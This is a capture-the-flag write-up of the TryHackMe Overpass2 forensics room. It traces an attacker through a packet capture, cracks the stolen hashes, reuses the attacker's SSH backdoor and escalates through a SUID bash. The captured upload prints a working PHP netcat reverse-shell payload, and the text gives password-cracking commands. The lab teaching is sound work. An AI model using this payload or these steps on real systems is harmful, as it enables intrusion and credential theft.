 ```yaml
---
title: Overpass2 Writeup
published: false
---
```

# TryHackMe - Overpass2
___________________________

This room is more a forensics room. The story is that someone has hacked the overpass website and we need to investigate how the attacker got in, what they did, and how we can get back on the box. We'll be using wireshark and some OSINT to figure out how the attacker got on and we'll see if we can't get back on the box. BTW, there is a walkthrough vide of this room by John Hammond, he's an excellent cyber-security resource on youtube so check him out if that's your thing.

## analyse the PCAP

The first section of this room is to analyse the wireshark packet capture file and see what the attacker did. We'll figure out where they uploaded, what they uploaded, and all the commands that the attacker used on the box. The first place to start with the packet capture file is `http POST` requests. Naviagting the file in wireshark and searching for `http`, we can see a `POST` request made to the `/development/` directory. This is a good place to look. If we inspect the request we can also see the reverse shell that got uploaded.
<br>
<br>

```
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
```
<br>
<br>

You can see the php code that gave the attacker the reverse shell. Now that we know the packet where the attacker uploaded his shell, we can simply inspect the packets beneath that until we see some shell commands. Netcat reverse shells transmit in clear text. The first command we see is to stabilize the shell. Once we locate that packet we can get a good overview of what the attacker did by going to analyze -> follow -> tcp stream. This allows us to see exactly what commands the attacker used.
<br>
<br>

![](assets/images/overpass2/overpass2_tcpfollow.png)
<br>
<br>

The attacker grabbed the user `james` password and switched to that user. From there, they dumped the `/etc/shadow` file. The room would like for us to take the shadow file and see how many of the passwords are crackable with the `fasttrack.txt` wordlist. You can use `hashcat` or `john` for this. If you use `john`, this is what I used:
<br>
<br>

`sudo john hashes.txt --wordlist=/usr/share/wordlists/fasttrack.txt`
<br>
<br>

The last part of this analysis is the program that the attacker used to install a backdoor on the machine. We can see that they cloned a git repo named `ssh-backdoor`. The next section is all about figuring out what the backdoor does.

## analysis of the backdoor  

Going to the git repo with the backdoor script [here](https://github.com/NinjaJc01/ssh-backdoor), we see only a couple of scripts, but the main one is, aptly named `main.go`. We can see that there's a default hash and a hardcoded salt involved in the code, but the attacker actually used their own hash. We can investigate the PCAP file again to see what the attacker used as their hash. So, with the hash and the salt, we can construct a hash that can be cracked. For this one, I used hashcat. The basic construction of the hash is `hash:salt`. I saved the hash in a file named `attacker_hash`, and the command I used is:
<br>
<br>

`hashcat -m 1710 attacker_hash.txt /usr/share/wordlists/rockyou.txt`
<br>
<br>

## back to the machine

Once we get that password cracked, we can connect to the victim machine through the backdoor the attacker installed. Once on the machine, we can grab the user flag with ease.
<br>
<br>

![](assets/images/overpass2/overpass2_user.png)
<br>
<br>

## root escalation

The escalation here is easy. The attacker left a quick way to escalate. After trying to run `sudo -l` with `james` password and failing, I took a look at the files in the home folder for `james` and saw a `.suid_bash` file owned by root. We can run this file with the `-p` argument to keep the permissions of the file owner and that allows us to get a shell as root.
<br>
<br>

![](assets/images/overpass2/overpass2_setuid.png)
<br>
<br>

![](assets/images/overpass2/overpass2_root.png)
<br>
<br>

From there root is only a `cat` command away. This was a great box that gave me a chance to refresh myself on wireshark and researching some code. Thanks for reading if you've gotten this far, and a special thanks to the creator of this box!
<br>
<br>
